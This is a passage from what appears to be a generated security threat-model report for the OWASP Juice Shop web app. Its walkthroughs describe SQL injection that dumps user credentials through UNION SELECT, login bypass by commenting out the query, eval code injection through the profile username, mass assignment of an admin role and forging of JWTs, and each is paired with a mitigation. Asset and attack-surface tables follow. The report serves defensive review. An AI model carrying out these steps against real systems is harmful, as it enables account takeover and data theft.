1. Send GET `/rest/products/search` with q set to a payload that closes the LIKE string.
2. Append a `UNION SELECT of id, email and password from Users` with matching column count.
3. Read the credential rows from the JSON product list and crack or replay the hashes.

**Sequence Diagram**



**Key takeaway:** Until ● [M-031](#m-031) (Use bound parameters in product search query) lands, 🔴 [F-004](#f-004) — SQL injection in product search is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-031](#m-031) (Use bound parameters in product search query)

### 3.2 SQL injection in login credential query

**Source:** 🔴 [F-011](#f-011) — `routes/login.ts:34`

Severity 🔴 Critical ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. Send POST `/rest/user/login` with an email value that terminates the quoted string and comments out the remainder of the query.
2. The query returns the targeted user row and the handler issues a JWT for that account.
3. Use the token to act as the admin and read or modify all data.

**Sequence Diagram**



**Key takeaway:** Until ● [M-033](#m-033) (Use parameterized queries for login lookup) lands, 🔴 [F-011](#f-011) — SQL injection in login credential query is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-033](#m-033) (Use parameterized queries for login lookup)

### 3.3 Insecure Direct Object Reference (Card) in Payment

**Source:** 🔴 [F-010](#f-010) — `routes/payment.ts:41`

Severity 🔴 Critical ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. An attacker crafts a request that reaches the code at `routes/payment.ts:41`.
2. A signed-in attacker puts another user's ID into the owner field of the request (`req.body.UserId` and the like); the query trusts it instead of the session identity, so the attacker reads or changes every other user's records - horizontal privilege escalation across all accounts.

**Sequence Diagram**



**Key takeaway:** Until ● [M-032](#m-032) (Enforce object-level (ownership) authorization (🔴 [F-010](#f-010))) lands, 🔴 [F-010](#f-010) — Insecure Direct Object Reference is exploitable at `routes/payment.ts:41` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ● [M-032](#m-032) (Enforce object-level (ownership) authorization (🔴 [F-010](#f-010)))
- Defence in depth: ◑ [M-001](#m-001) (Manual review: verify Insecure Direct Object Reference (Card))

### 3.4 Code injection in User Profile

**Source:** 🔴 [F-012](#f-012) — `routes/userProfile.ts:61`

Severity 🔴 Critical ([CWE-95](https://cwe.mitre.org/data/definitions/95.html)). STRIDE: Elevation of Privilege. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. Log in and POST `/profile` with username set to #{...} containing Node code.
2. Request GET `/profile` so the stored username is eval'd on the server.
3. Use the code to read files or run commands as the server process.

**Sequence Diagram**



**Key takeaway:** Until ● [M-034](#m-034) (Remove eval of profile username) lands, 🔴 [F-012](#f-012) — Code injection is exploitable at `routes/userProfile.ts:61` (Critical-severity, [CWE-95](https://cwe.mitre.org/data/definitions/95.html)).

**Defense in Depth**

- Primary mitigation: ● [M-034](#m-034) (Remove eval of profile username)

### 3.5 Mass assignment of role on user registration in Juice Shop Express Server

**Source:** 🟠 [F-067](#f-067) — `server.ts:420`

Severity 🟠 High ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-067](#f-067) for the full register row.

**Attack Steps**

1. Attacker sends POST `/api/Users` with email, password, `passwordRepeat` and `role=admin`.
2. The `registerAdminChallenge` middleware only records the attempt and calls next.
3. finale persists the admin role; an attacker logs in as administrator.

**Sequence Diagram**



**Key takeaway:** Until ● [M-080](#m-080) (Strip role from registration input) lands, 🟠 [F-067](#f-067) — Mass assignment of role on user registration is exploitable at `server.ts:420` (High-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ● [M-080](#m-080) (Strip role from registration input)
- Defence in depth: ◑ [M-012](#m-012) (Manual review: verify Mass assignment of role on user registration)

### 3.6 User registration accepts a client-chosen role in Juice Shop Express Server

**Source:** 🟠 [F-068](#f-068) — `server.ts:422`

Severity 🟠 High ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-068](#f-068) for the full register row.

**Attack Steps**

1. POST `/api/Users` is a generated create resource, and no handler removes role from the body.
2. The model accepts 'admin' for role.
3. An anonymous attacker registers with role admin and logs in as an administrator.

**Sequence Diagram**



**Key takeaway:** Until ● [M-081](#m-081) (Allow-list registration fields and force the customer role) lands, 🟠 [F-068](#f-068) — User registration accepts a client-chosen role is exploitable at `server.ts:422` (High-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ● [M-081](#m-081) (Allow-list registration fields and force the customer role)

### 3.7 Hardcoded JWT signing key and HMAC secrets

**Source:** 🟠 [F-048](#f-048) — `lib/insecurity.ts:21`

Severity 🟠 High ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Information Disclosure. See [§8 F-048](#f-048) for the full register row.

**Attack Steps**

1. An attacker crafts a request that reaches the code at `lib/insecurity.ts:21`.
2. The `RS256` private key used to sign session tokens, plus HMAC keys for security answers, are embedded in source.
3. Anyone with repository access can forge valid JWTs for any user or role, including admin.

**Sequence Diagram**



**Key takeaway:** Until ● [M-065](#m-065) (Move secrets to a managed secret store) lands, 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets is exploitable at `lib/insecurity.ts:21` (High-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ● [M-065](#m-065) (Move secrets to a managed secret store)

### 3.8 JWT verification does not pin an algorithm

**Source:** 🟡 [F-078](#f-078) — `lib/insecurity.ts:55`

Severity 🟡 Medium ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-078](#f-078) for the full register row.

**Attack Steps**

1. Verification at `express-jwt`, `jws.verify` and `jwt.verify` is called with the public key but no algorithms list (`express-jwt` is cast to any).
2. An attacker could try algorithm-confusion tokens, for example `HS256` keyed with the public key, to forge identities.
3. Whether the library versions reject this is not shown.

**Sequence Diagram**



**Key takeaway:** Until ● [M-091](#m-091) (Pin `RS256` in every token verification call) lands, 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm is exploitable at `lib/insecurity.ts:55` (Medium-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ● [M-091](#m-091) (Pin `RS256` in every token verification call)
- Defence in depth: ◑ [M-015](#m-015) (Manual review: verify JWT verification does not pin an algorithm)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

What needs protecting, how sensitive it is, and which findings are tied to it.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="46%" style="width:46%"><col width="16%" style="width:16%"><col width="38%" style="width:38%"></colgroup>
<thead><tr><th>Asset</th><th>Sensitivity (assumed)</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><strong>Shop relational data</strong><br/>Users, addresses, cards, baskets, wallets and related records in the SQLite database.</td><td style="overflow-wrap:break-word">Medium</td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004">F-004</a></span>, <span style="white-space:nowrap"><a href="#f-010">F-010</a></span>, <span style="white-space:nowrap"><a href="#f-011">F-011</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span>, <span style="white-space:nowrap"><a href="#f-002">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span>, <span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-050">F-050</a></span>, <span style="white-space:nowrap"><a href="#f-051">F-051</a></span>, <span style="white-space:nowrap"><a href="#f-052">F-052</a></span>, <span style="white-space:nowrap"><a href="#f-053">F-053</a></span>, <span style="white-space:nowrap"><a href="#f-057">F-057</a></span>, <span style="white-space:nowrap"><a href="#f-058">F-058</a></span>, <span style="white-space:nowrap"><a href="#f-059">F-059</a></span>, <span style="white-space:nowrap"><a href="#f-060">F-060</a></span>, <span style="white-space:nowrap"><a href="#f-061">F-061</a></span>, <span style="white-space:nowrap"><a href="#f-063">F-063</a></span>, <span style="white-space:nowrap"><a href="#f-069">F-069</a></span><br/><details><summary>11 Medium</summary>🟡 <a href="#f-072">F-072</a> - Client-supplied UserId accepted when posting feedback<br/>🟡 <a href="#f-087">F-087</a> - Model setters skip HTML sanitization on challenge branch<br/>🟡 <a href="#f-093">F-093</a> - User emails rendered as trusted HTML in admin<br/>🟡 <a href="#f-094">F-094</a> - DOM XSS<br/>🟡 <a href="#f-095">F-095</a> - Stored XSS risk from trusted product<br/>🟡 <a href="#f-107">F-107</a> - Data export finds orders by non-unique masked e-mail<br/>🟡 <a href="#f-108">F-108</a> - Order history matches orders by masked email<br/>🟡 <a href="#f-109">F-109</a> - Order tracking returns any order by identifier<br/>🟡 <a href="#f-111">F-111</a> - Card numbers and TOTP secrets stored unencrypted<br/>🟡 <a href="#f-118">F-118</a> - Any logged-in user can delete any feedback<br/>🟡 <a href="#f-119">F-119</a> - Basket items readable and deletable across users</details></td></tr>
<tr><td style="overflow-wrap:break-word"><strong>User credentials</strong><br/>Emails and password hashes (MD5) checked at login.</td><td style="overflow-wrap:break-word">High</td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004">F-004</a></span>, <span style="white-space:nowrap"><a href="#f-011">F-011</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span>, <span style="white-space:nowrap"><a href="#f-043">F-043</a></span>, <span style="white-space:nowrap"><a href="#f-045">F-045</a></span>, <span style="white-space:nowrap"><a href="#f-047">F-047</a></span><br/><details><summary>5 Medium</summary>🟡 <a href="#f-077">F-077</a> - No brute-force protection on login handler<br/>🟡 <a href="#f-087">F-087</a> - Model setters skip HTML sanitization on challenge branch<br/>🟡 <a href="#f-093">F-093</a> - User emails rendered as trusted HTML in admin<br/>🟡 <a href="#f-094">F-094</a> - DOM XSS<br/>🟡 <a href="#f-095">F-095</a> - Stored XSS risk from trusted product</details></td></tr>
<tr><td style="overflow-wrap:break-word"><strong>JWT session tokens</strong><br/>RS256-signed JWTs issued with 6h expiry and verified for authorization.</td><td style="overflow-wrap:break-word">Medium</td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span>, <span style="white-space:nowrap"><a href="#f-003">F-003</a></span>, <span style="white-space:nowrap"><a href="#f-016">F-016</a></span>, <span style="white-space:nowrap"><a href="#f-019">F-019</a></span>, <span style="white-space:nowrap"><a href="#f-020">F-020</a></span><br/><details><summary>9 Medium</summary>🟡 <a href="#f-071">F-071</a> - Chatbot trusts unverified JWT payload for identity<br/>🟡 <a href="#f-075">F-075</a> - OAuth implicit flow without state parameter<br/>🟡 <a href="#f-078">F-078</a> - JWT verification does not pin an algorithm<br/>🟡 <a href="#f-080">F-080</a> - Cookie-authenticated profile update lacks<br/>🟡 <a href="#f-087">F-087</a> - Model setters skip HTML sanitization on challenge branch<br/>🟡 <a href="#f-088">F-088</a> - Missing Container Image Signing<br/>🟡 <a href="#f-093">F-093</a> - User emails rendered as trusted HTML in admin<br/>🟡 <a href="#f-094">F-094</a> - DOM XSS<br/>🟡 <a href="#f-095">F-095</a> - Stored XSS risk from trusted product</details></td></tr>
<tr><td style="overflow-wrap:break-word"><strong>Product reviews and orders</strong><br/>Review and order documents in MarsDB collections.</td><td style="overflow-wrap:break-word">Low</td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-033">F-033</a></span>, <span style="white-space:nowrap"><a href="#f-034">F-034</a></span>, <span style="white-space:nowrap"><a href="#f-035">F-035</a></span>, <span style="white-space:nowrap"><a href="#f-051">F-051</a></span>, <span style="white-space:nowrap"><a href="#f-052">F-052</a></span><br/><details><summary>3 Medium</summary>🟡 <a href="#f-070">F-070</a> - Product review author taken from request<br/>🟡 <a href="#f-108">F-108</a> - Order history matches orders by masked email<br/>🟡 <a href="#f-115">F-115</a> - Event loop blocked by busy-wait sleep</details></td></tr>
<tr><td style="overflow-wrap:break-word"><strong>LLM and RPC API keys</strong><br/><code>LLM_API_KEY</code> and <code>ALCHEMY_API_KEY</code> read from environment for outbound service calls.</td><td style="overflow-wrap:break-word">High</td><td style="overflow-wrap:break-word">No finding linked</td></tr>
</tbody>
</table>

*Sensitivity is assumed from the code, not set by your organization. No finding linked means that no finding is tied to this asset yet. It does not mean the asset is safe.*

---

## 5. Attack Surface

Network-reachable entry points by authentication requirement. Routes with the same findings share a row, worst first. Entry points without Critical or High findings are collapsed.

### 5.1 Unauthenticated Entry Points (0)

_None enumerated._

### 5.2 Authenticated Entry Points (60)

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="62%" style="width:62%"><col width="38%" style="width:38%"></colgroup>
<thead><tr><th>Entry point</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word">GET · POST <code>/<wbr>profile</code></td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-012">F-012</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-044">F-044</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-080">F-080</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>user/<wbr>login</code></td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-011">F-011</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-077">F-077</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">DELETE <code>/<wbr>api/<wbr>Products/:id</code><br/>POST <code>/<wbr>api/<wbr>Products</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-026">F-026</a></span>, <span style="white-space:nowrap"><a href="#f-061">F-061</a></span>, <span style="white-space:nowrap"><a href="#f-063">F-063</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET · PUT · DELETE <code>/<wbr>api/<wbr>Users/:id</code><br/>GET <code>/<wbr>api/<wbr>Users</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-060">F-060</a></span>, <span style="white-space:nowrap"><a href="#f-066">F-066</a></span></td></tr>
